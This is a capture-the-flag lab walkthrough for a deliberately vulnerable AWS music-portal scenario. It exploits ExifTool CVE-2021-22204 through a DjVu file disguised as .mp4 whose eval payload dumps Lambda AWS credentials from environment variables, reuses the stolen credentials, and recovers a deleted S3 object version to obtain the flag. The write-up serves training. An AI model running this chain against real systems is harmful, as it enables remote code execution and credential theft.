








# Walkthrough

## Step 1: Reconnaissance

### 1.1 Initial Contact

One piece of information: the portal URL from Terraform output.

```
$ terraform -chdir=terraform output portal_url
"http://<portal-ip>"
```

Before touching the browser, grab raw HTTP headers.

```
$ curl -sv http://<portal-ip>/ 2>&1 | grep "^[<>]"

> GET / HTTP/1.1
> Host: <portal-ip>
< HTTP/1.1 200 OK
< Server: Werkzeug/3.1.8 Python/3.9.25
< Content-Type: text/html; charset=utf-8
```

**Finding:** Werkzeug — Flask application on Python 3.9. No version info on ExifTool yet, but the stack is identified.

### 1.2 Browse Visible Pages — News

Before registering, browse the portal's publicly accessible pages. The navigation includes a `/news` section:

```
http://<portal-ip>/news
```



**Article:**

> *"BeaverSound Removes Unreleased Maya Arden Tracklist Following Label Dispute"*
>
> *"The file — a tracklist for the unannounced album — was submitted through the BeaverSound
> platform by an unknown party and held in the distribution vault awaiting processing.
> Stellar Records confirmed the tracklist had not been authorized for public release and
> demanded its immediate removal.*
>
> *'The file has been permanently removed from our systems,' said a BeaverSound spokesperson."*

**Note this now.** A file described as a tracklist was held in a "distribution vault" and "permanently removed." This is the end target of the chain — keep it in mind as you enumerate S3 later.

---

### 1.3 Register a Free Account

The portal is a music distribution platform. The login page has a "Sign up free" link — registration is open to anyone.

### Method 1: Using Browser



Click **Sign up** and fill in Display Name, Email, and Password (min 8 chars).



After login, the **Artist Dashboard** shows a platform info card:





### Method 2: Using CLI

Registration and login both accept standard HTML form POST — a cookie jar handles the session. Replace the email and password below with any credentials you choose:

```
# Register (sets session cookie on success)
$ curl -s -c cookies.txt -X POST http://<portal-ip>/register \
  -d "name=attacker&email=attacker@example.com&password=attacker123" \
  -o /dev/null

# Or log in if the account already exists
$ curl -s -c cookies.txt -b cookies.txt -X POST http://<portal-ip>/login \
  -d "email=attacker@example.com&password=attacker123" \
  -o /dev/null
```

`cookies.txt` now holds the Flask session cookie. Reuse it with `-b cookies.txt` for all subsequent requests.

**ExifTool 12.23.** The platform is displaying its own processor version. CVE-2021-22204 affects ExifTool < 12.24 — this version is vulnerable to RCE via crafted DjVu metadata.

Note the GuardDuty mention. Assess it before acting (Step 3).

### 1.4 Confirm ExifTool Runs on Every Upload

### Method 1: Using Browser

After login, the **Platform Info** card on the dashboard displays:

```
Processor    ExifTool/12.23
```

CVE-2021-22204 affects ExifTool < 12.24 — this version is vulnerable. The same version appears on the upload result page, confirming ExifTool runs on every file submitted.

### Method 2: Using CLI

The same information is exposed in the HTTP response header on every upload:

```
$ curl -s -D - -X POST http://<portal-ip>/upload \
  -b cookies.txt \
  -F "file=@/dev/null;filename=probe.txt" | grep -i "x-processor"

X-Processor: ExifTool/12.23
```

**Confirmed.** The `X-Processor` header is set from the Lambda function's return value. ExifTool runs synchronously — the response only returns after ExifTool finishes. This means any output ExifTool produces (or any side-effect it triggers) happens before we get a response back.

### 1.5 Baseline — Normal File Upload

Before crafting any payload, upload a legitimate file to observe the normal response structure.

### Method 1: Using Browser

Log in and use **Upload & Process** to submit any innocuous file (e.g., a plain `.txt`). The result page shows the `code-box` with ExifTool metadata — the red `rce-box` is absent.

### Method 2: Using CLI

```
$ curl -s -X POST http://<portal-ip>/upload \
  -b cookies.txt \
  -F "file=@/etc/hostname;filename=test.mp3" \
  | grep -A 10 "code-box"
```

```html
<div class='code-box'>ExifTool Version Number         : 12.23
File Name                       : test.mp3
File Size                       : 12 bytes
File Type                       : TXT
File Type Extension             : txt
MIME Type                       : text/plain
</div>
```

**Observations:**

- ExifTool parses the file and returns a metadata block — regardless of the declared filename extension.
- File type is determined by content, not by the `.mp3` name.
- The output lands in a `<div class='code-box'>` in the HTML response.
- No sanitization is visible in the metadata output — values are rendered as-is into the page.
- A second div (`class='rce-box'`) is absent for benign files — this slot is where side-channel output would appear.

This establishes the attack surface: anything ExifTool writes to `/tmp/exif_rce.txt` will surface in the `rce-box` div. The next step is triggering that write.

---

## Step 2: Vulnerability Research — CVE-2021-22204

### 2.1 Root Cause

In `Image/ExifTool/DjVu.pm`, the function `ParseAnt()` processes DjVu annotation chunks. The vulnerable code:

```perl
$$valPt = eval $$valPt;
```

The raw annotation string is passed directly to Perl `eval()` with no sanitization. An annotation like:

```
(metadata "\c${system(q(CMD))};")
```

causes Perl to call `system(CMD)` — arbitrary shell command execution.

**Why `.mp4` works as the extension:** ExifTool determines file type from magic bytes, not the filename extension. DjVu magic bytes are `AT&TFORM` (hex: `41 54 26 54 46 4F 52 4D`). A DjVu file saved as `malicious.mp4` is still parsed as DjVu, and `ParseAnt()` is still invoked. Extension-based filtering is not a mitigation.

### 2.2 Build the Payload

The payload generator requires only Python 3 — no external tools.

```
$ cd assets/payloads/
$ python3 generate_payload.py --output malicious.mp4

[+] Payload written to: malicious.mp4
[+] File magic: AT&TFORM (DjVu) - ExifTool identifies by content, not extension
[+] Annotation type: ANTa (uncompressed) - no bzz compression needed
[+] Command: env | grep -E 'AWS_|VAULT_|UPLOADS_' > /tmp/exif_rce.txt
```

Verify the magic bytes are correct:

```
$ xxd malicious.mp4 | head -3
00000000: 4154 2654 464f 524d 0000 0076 444a 5655  AT&TFORM...vDJVU
00000010: 494e 464f 0000 000a 0001 0001 0018 0018  INFO........
00000020: 001a 416e 5461 0000 0058 286d 6574 6164  ..ANTa...X(metad
```

`AT&TFORM` at offset 0 — ExifTool will parse this as DjVu regardless of the `.mp4` extension.

The injected command writes all `AWS_*`, `VAULT_*`, and `UPLOADS_*` environment variables to `/tmp/exif_rce.txt`. The Lambda handler reads this file after ExifTool exits and includes its contents in the response.

---

## Step 3: Assess the Security Controls

### 3.1 GuardDuty Malware Protection

The dashboard says GuardDuty is enabled. Before uploading, understand what it actually does:

| Property | Reality |
|----------|---------|
| Scan timing | Asynchronous — fires on S3 `PutObject`, after the upload completes |
| Lambda timing | EC2 portal invokes Lambda directly after upload — independently of GuardDuty |
| Race condition | Lambda processes the file before GuardDuty scan result is available |
| Detection approach | Tagging + EventBridge notification — not a blocking gate |
| DjVu ANTa payload | Structurally valid DjVu, no shellcode — no signature match |

**Conclusion:** GuardDuty will not block the upload or delay Lambda execution. By the time GuardDuty produces a scan result, the RCE has already run and the response has already been returned. Proceed.

---

## Step 4: Execute the Exploit

### Method 1: Using Browser

Log in to `http://<portal-ip>/` and use **Upload & Process** to submit `malicious.mp4`.



The portal response page will show a red **Debug Output [RCE]** box containing the Lambda environment variables — AWS credentials and bucket names.





Copy the credentials from the red box and proceed to Step 5.

### Method 2: Using CLI

Using the cookie jar from Step 1.3 (no manual cookie extraction needed):

```
$ curl -s -X POST http://<portal-ip>/upload \
  -b cookies.txt \
  -F "file=@malicious.mp4;type=video/mp4" \
  | grep -A 30 "rce-box"
```

The response is HTML. The credentials appear inside `<div class='rce-box'>`:

```html
<div class='rce-box'>AWS_ACCESS_KEY_ID=<access-key-id>
AWS_SECRET_ACCESS_KEY=<secret-access-key>
AWS_SESSION_TOKEN=<session-token>
AWS_REGION=us-east-1
VAULT_BUCKET=beaversound-vault-<suffix>
UPLOADS_BUCKET=beaversound-uploads-<suffix>
</div>
```

Extract only the credential lines cleanly:

```
$ curl -s -X POST http://<portal-ip>/upload \
  -b cookies.txt \
  -F "file=@malicious.mp4;type=video/mp4" \
  | grep -oP "(?<=rce-box'>)[^<]+" \
  | tr ';' '\n'
```

---

## Step 5: Credential Extraction and Identity

### 5.1 Export Stolen Credentials

Keep credentials in environment variables to avoid writing them to disk:

```
$ export AWS_ACCESS_KEY_ID="<access-key-id>"
$ export AWS_SECRET_ACCESS_KEY="<secret-access-key>"
$ export AWS_SESSION_TOKEN="<session-token>"
$ export AWS_DEFAULT_REGION="us-east-1"
$ export VAULT_BUCKET="beaversound-vault-<suffix>"
$ export UPLOADS_BUCKET="beaversound-uploads-<suffix>"
```

### 5.2 Verify Identity

`sts:GetCallerIdentity` works with any valid AWS credentials — it requires no explicit IAM permission:

```
$ aws sts get-caller-identity
{
    "UserId": "<role-id>:beaversound-process-upload-<suffix>",
    "Account": "<account-id>",
    "Arn": "arn:aws:sts::<account-id>:assumed-role/beaversound-lambda-exec-<suffix>/beaversound-process-upload-<suffix>"
}
```

Operating as `beaversound-lambda-exec-<suffix>` — the Lambda execution role. Every permission this role holds is now available.

---

## Step 6: Lateral Movement — Enumerate What This Role Can Do

The goal now is to map the blast radius of this role before moving on S3.

### 6.1 IAM Self-Enumeration

```
$ aws iam get-role --role-name beaversound-lambda-exec-<suffix>

An error occurred (AccessDenied) when calling the GetRole operation:
User: arn:aws:sts::<account-id>:assumed-role/beaversound-lambda-exec-<suffix>/...
is not authorized to perform: iam:GetRole on resource: role beaversound-lambda-exec-<suffix>
```

```
$ aws iam list-attached-role-policies --role-name beaversound-lambda-exec-<suffix>

An error occurred (AccessDenied) when calling the ListAttachedRolePolicies operation: ...
```

**Dead end.** No IAM read permissions. Cannot enumerate policies via IAM API.

### 6.2 Global S3 Listing

```
$ aws s3 ls

An error occurred (AccessDenied) when calling the ListBuckets operation:
... is not authorized to perform: s3:ListAllMyBuckets on resource: arn:aws:s3:::
```

**Dead end.** But we already have the bucket names from `VAULT_BUCKET` and `UPLOADS_BUCKET` in `debug_output` — `ListAllMyBuckets` is unnecessary.

### 6.3 Lambda Enumeration

```
$ aws lambda list-functions

An error occurred (AccessDenied) when calling the ListFunctions operation:
... is not authorized to perform: lambda:ListFunctions on resource: *
```

**Dead end.** No Lambda enumeration permissions.

### 6.4 EC2 Enumeration

```
$ aws ec2 describe-instances

An error occurred (UnauthorizedOperation) when calling the DescribeInstances operation:
You are not authorized to perform this operation.
```

**Dead end.** No EC2 permissions.

### 6.5 Secrets Manager

```
$ aws secretsmanager list-secrets

An error occurred (AccessDenied) when calling the ListSecrets operation:
... is not authorized to perform: secretsmanager:ListSecrets on resource: *
```

**Dead end.** No Secrets Manager access.

### 6.6 SSM Parameter Store

```
$ aws ssm describe-parameters

An error occurred (AccessDenied) when calling the DescribeParameters operation:
... is not authorized to perform: ssm:DescribeParameters on resource: *
```

**Dead end.** No SSM access.

### 6.7 CloudTrail — Can We See Our Own Activity?

```
$ aws cloudtrail describe-trails

An error occurred (AccessDenied) when calling the DescribeTrails operation:
... is not authorized to perform: cloudtrail:DescribeTrails on resource: *
```

**Dead end.** Cannot enumerate or suppress CloudTrail.

**Pivot decision:** Every service besides S3 is denied. The role has two known S3 targets from the environment variables. Focus entirely on S3.

---

## Step 7: S3 Exploitation

### 7.1 Enumerate the Uploads Bucket

```
$ aws s3 ls s3://$UPLOADS_BUCKET/

2026-05-18 11:32:18       130 uploads/<uuid>/malicious.mp4
```

Only our own uploaded payload. The uploads bucket is a staging queue — files land here, get processed by Lambda, and are then archived to vault. Nothing sensitive to retrieve.

Confirm read access works:

```
$ aws s3 cp s3://$UPLOADS_BUCKET/uploads/<uuid>/malicious.mp4 /tmp/check.mp4

download: s3://beaversound-uploads-<suffix>/uploads/... to /tmp/check.mp4
```

`s3:GetObject` on `uploads/*` is granted. Nothing interesting here though.

### 7.2 Enumerate the Vault Bucket

```
$ aws s3 ls s3://$VAULT_BUCKET/

2026-05-18 08:00:01         65 session_recordings_raw.mp3
2026-05-18 08:00:02         67 unreleased_master_take_2.mp3
2026-05-18 11:32:19       130 malicious.mp4
```

Three files visible. Our `malicious.mp4` is there — the Lambda processed it and archived it to vault as part of the distribution pipeline. The two MP3s are existing vault contents. No `tracklist.txt`.

Try downloading the MP3s — the role has `s3:*` on the vault:

```
$ aws s3 cp s3://$VAULT_BUCKET/session_recordings_raw.mp3 /tmp/session.mp3

download: s3://beaversound-vault-<suffix>/session_recordings_raw.mp3 to /tmp/session.mp3

$ file /tmp/session.mp3
/tmp/session.mp3: ASCII text
```

Placeholder file — no actual audio data. The vault contains real filenames but placeholder content. The interesting data must be elsewhere. No `tracklist.txt` visible in the current listing.

### 7.3 Check Object Tags for Intel

```
$ aws s3api get-object-tagging \
  --bucket $VAULT_BUCKET \
  --key session_recordings_raw.mp3
{
    "TagSet": [
        {"Key": "Artist",         "Value": "Maya Arden"},
        {"Key": "Classification", "Value": "CONFIDENTIAL"},
        {"Key": "Scenario",       "Value": "hidden-track"}
    ]
}
```

Tag confirms the vault belongs to Maya Arden. "Classification: CONFIDENTIAL". No `tracklist.txt` visible in the current listing — but we already know from the `/news` page that a tracklist was held in this vault and "permanently removed."

**Hypothesis:** The tracklist was "deleted" but the previous version is still retrievable via `ListObjectVersions`. If S3 Versioning is enabled, `DeleteObject` only creates a Delete Marker — the underlying version data remains intact.

---

## Step 8: S3 Versioning Exploitation

### 8.1 Confirm Versioning Is Enabled

```
$ aws s3api get-bucket-versioning --bucket $VAULT_BUCKET
{
    "Status": "Enabled"
}
```

**Confirmed.** Every `DeleteObject` call on a versioned bucket creates a Delete Marker — not actual deletion. The underlying version data survives.

### 8.2 List All Object Versions

The Lambda role has `s3:*` on the vault — this includes `s3:ListBucketVersions`:

```
$ aws s3api list-object-versions --bucket $VAULT_BUCKET
```

```json
{
    "Versions": [
        {
            "Key": "malicious.mp4",
            "VersionId": "<version-id>",
            "IsLatest": true,
            "Size": 130,
            "LastModified": "2026-05-18T11:32:19.000Z"
        },
        {
            "Key": "session_recordings_raw.mp3",
            "VersionId": "<version-id>",
            "IsLatest": true,
            "Size": 65,
            "LastModified": "2026-05-18T08:00:01.000Z"
        },
        {
            "Key": "tracklist.txt",
            "VersionId": "<tracklist-version-id>",
            "IsLatest": false,
            "Size": 312,
            "LastModified": "2026-05-18T09:23:47.000Z"
        },
        {
            "Key": "unreleased_master_take_2.mp3",
            "VersionId": "<version-id>",
            "IsLatest": true,
            "Size": 67,
            "LastModified": "2026-05-18T08:00:02.000Z"
        }
    ],
    "DeleteMarkers": [
        {
            "Key": "tracklist.txt",
            "VersionId": "<delete-marker-id>",
            "IsLatest": true,
            "LastModified": "2026-05-18T10:41:22.000Z"
        }
    ]
}
```

**Analysis:**

| Key | VersionId | IsLatest | Type |
|-----|-----------|----------|------|
| `tracklist.txt` | `<delete-marker-id>` | true | **Delete Marker** — the "deletion" |
| `tracklist.txt` | `<tracklist-version-id>` | false | **Previous version** — the actual file |

The Delete Marker with `IsLatest: true` is what makes `s3 ls` and plain `GetObject` return nothing. The previous version (IsLatest: false) is the real file — untouched.

### 8.3 Prove the Delete Marker Is the Obstacle

```
$ aws s3api get-object \
  --bucket $VAULT_BUCKET \
  --key tracklist.txt \
  /tmp/tracklist.txt

An error occurred (NoSuchKey) when calling the GetObject operation:
The specified key does not exist.
```

Without a `versionId`, the Delete Marker acts as a tombstone and the response is `NoSuchKey`. The file is not actually gone.

### 8.4 Extract the Version ID

```
$ TRACKLIST_VERSION=$(aws s3api list-object-versions \
  --bucket $VAULT_BUCKET \
  --prefix tracklist.txt \
  --query "Versions[?IsLatest==\`false\`].VersionId | [0]" \
  --output text)

$ echo $TRACKLIST_VERSION
<tracklist-version-id>
```

### 8.5 Bypass the Delete Marker

Specifying a `versionId` skips the Delete Marker entirely and retrieves the previous version directly:

```
$ aws s3api get-object \
  --bucket $VAULT_BUCKET \
  --key tracklist.txt \
  --version-id "$TRACKLIST_VERSION" \
  /tmp/tracklist.txt
{
    "DeleteMarker": false,
    "VersionId": "<tracklist-version-id>",
    "ContentLength": 312,
    "ContentType": "text/plain"
}
```

```
$ cat /tmp/tracklist.txt

[CONFIDENTIAL — DO NOT DISTRIBUTE]

Artist : Maya Arden
Album  : Neon Fault Line
Label  : Stellar Records

01. Static Dreams
02. Glass Meridian
03. After the Signal
04. Neon Fault Line
05. Low Orbit
06. Satellite (feat. Kian)
07. Empty Frequency
08. Hidden Track

---
internal-id: flag{rock_and_roll_never_dies}
```

**Flag:** `flag{rock_and_roll_never_dies}`

---

## Attack Chain Summary

```
1. Reconnaissance — public pages
   ↓ GET /news → tracklist "permanently removed from systems" — Delete Marker hypothesis
2. Register free account → login
   ↓ Dashboard: Processor = ExifTool/12.23 — X-Processor header confirmed on probe upload
3. Baseline upload (benign file)
   ↓ ExifTool output in code-box, rce-box absent — output channel confirmed
   ↓ File type from magic bytes, not extension — extension bypass feasible
4. CVE-2021-22204 — DjVu ANTa → ParseAnt() → Perl eval() → system()
   ↓ AT&TFORM magic bytes trigger DjVu parse regardless of extension
5. Generate payload
   ↓ python3 generate_payload.py → malicious.mp4 (DjVu + ANTa + env dump command)
6. Assess GuardDuty
   ↓ Async detection, not a blocking gate — Lambda executes before scan result
7. Upload malicious.mp4
   ↓ ExifTool parses DjVu ANTa → ParseAnt() eval() → RCE executed
   ↓ /tmp/exif_rce.txt written → Lambda reads and returns it in portal response
8. Harvest credentials from rce-box div
   ↓ AWS_ACCESS_KEY_ID / AWS_SECRET_ACCESS_KEY / AWS_SESSION_TOKEN
   ↓ VAULT_BUCKET / UPLOADS_BUCKET
9. sts:GetCallerIdentity
   ↓ beaversound-lambda-exec role confirmed
10. Lateral movement enumeration (all denied)
    ↓ IAM, Lambda, EC2, SecretsManager, SSM, CloudTrail → AccessDenied
    ↓ Pivot decision: S3 only
11. s3:ListBucket — uploads bucket
    ↓ Only own payload — nothing sensitive
12. s3:ListBucket — vault bucket
    ↓ 3 files visible, no tracklist.txt in current listing
13. Object tag enumeration
    ↓ Classification: CONFIDENTIAL — Maya Arden vault confirmed
    ↓ Cross-ref /news → tracklist "permanently removed" → Delete Marker hypothesis confirmed
14. get-bucket-versioning
    ↓ Status: Enabled
15. list-object-versions
    ↓ tracklist.txt: Delete Marker (IsLatest:true) + previous version (IsLatest:false) intact
16. Prove Delete Marker blocks plain GetObject
    ↓ GetObject tracklist.txt → NoSuchKey — Delete Marker acts as tombstone
17. Bypass Delete Marker with VersionId
    ↓ GetObject --version-id <tracklist-version-id> → 200 OK
18. FLAG
    ↓ cat /tmp/tracklist.txt → flag{rock_and_roll_never_dies}
```

---

## Key Techniques

### DjVu Payload Generation
```bash
python3 assets/payloads/generate_payload.py --output malicious.mp4
```

Verify magic bytes before upload:
```bash
xxd malicious.mp4 | head -3
# 00000000: 4154 2654 464f 524d ...  AT&TFORM (DjVu magic)
# 00000020: ...  416e 5461 ...       ANTa annotation chunk
```

### ExifTool Magic Byte vs Extension Bypass

| Property | Behavior |
|---|---|
| File type detection | Magic bytes (`AT&TFORM`) — not filename extension |
| Extension `.mp4` | Parsed as DjVu — `ParseAnt()` invoked |
| Extension filter bypass | Any extension works — `.mp4`, `.jpg`, `.txt` |
| Vulnerable path | `DjVu.pm ParseAnt()` → `eval $$valPt` (no sanitization) |

### S3 Version Recovery
```bash
# List all versions including Delete Markers
aws s3api list-object-versions --bucket $VAULT_BUCKET --prefix tracklist.txt

# Extract VersionId of previous (non-deleted) version
TRACKLIST_VERSION=$(aws s3api list-object-versions \
  --bucket $VAULT_BUCKET \
  --prefix tracklist.txt \
  --query "Versions[?IsLatest==\`false\`].VersionId | [0]" \
  --output text)

# Bypass Delete Marker — retrieve previous version directly
aws s3api get-object \
  --bucket $VAULT_BUCKET \
  --key tracklist.txt \
  --version-id "$TRACKLIST_VERSION" \
  /tmp/tracklist.txt
```

### Delete Marker vs Actual Deletion

| | Delete Marker | Permanent Deletion |
|---|---|---|
| Plain `GetObject` | `NoSuchKey` | `NoSuchKey` |
| `s3 ls` | File absent | File absent |
| `list-object-versions` | **Delete Marker visible** | No entry |
| Previous version | **Intact — recoverable** | Gone |
| Fix | Delete all VersionIds explicitly | Already done |

---

## Lessons Learned

